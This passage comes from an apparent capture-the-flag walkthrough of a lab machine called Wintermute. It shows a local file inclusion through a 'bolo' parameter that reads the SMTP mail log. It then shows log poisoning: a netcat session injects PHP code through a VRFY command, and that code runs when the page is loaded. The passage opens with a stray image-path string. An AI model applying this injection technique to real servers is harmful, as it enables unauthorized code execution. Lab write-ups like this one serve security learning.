 This page is including files with **.log** extension, through the **bolo** parameter we include the **/var/log/mail.log** file without the extension, and we can see the logs from SMTP service.

![](/assets/images/wintermute/screenshot-8.png)

We can inject php code into the SMTP log file, we insert the **phpinfo()** function to connect to the SMTP service on port 25. 

```console
root@kali:~$ nc -v 192.168.179.180 25
straylight [192.168.179.180] 25 (smtp) open
220 straylight ESMTP Postfix (Debian/GNU)
VRFY <?php phpinfo(); ?>
501 5.1.3 Bad recipient address syntax
```

We loaded the web page, and we can see that the php code is executing.

![](/assets/images/wintermute/screenshot-9.png)
